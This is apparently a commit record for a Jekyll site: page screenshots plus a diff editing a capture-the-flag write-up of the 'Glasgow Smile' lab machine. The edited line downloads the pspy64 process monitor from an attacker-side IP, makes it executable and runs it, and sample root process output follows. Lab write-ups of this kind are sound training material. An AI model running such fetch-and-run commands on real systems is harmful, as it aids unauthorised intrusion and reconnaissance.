

Before and after one commit to laughtersec/laughtersec.github.io, a Jekyll site: the page built from pages/glasgowsmile.md, in a window 1280 px wide and 900 px high, scrolled down 12200 px. Shown: the whole window, without its empty margins (105-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
Update glasgowsmile.md

````diff
--- a/pages/glasgowsmile.md
+++ b/pages/glasgowsmile.md
@@ -410,7 +410,7 @@ If you're gonna keep such large directory names, I'm going to feel like taking a
 `.trash_old` has interesting group permissions. But is it useful?
 
 ```shell
-penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ wget http://192.168.45.181/pspy64
+penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ wget http://192.168.45.181/pspy64 && chmod +x pspy64 && ./pspy64
 <...>
 2025/06/07 05:45:25 CMD: UID=0     PID=1380   | bash
 2025/06/07 05:45:29 CMD: UID=0     PID=1381   | bash
````
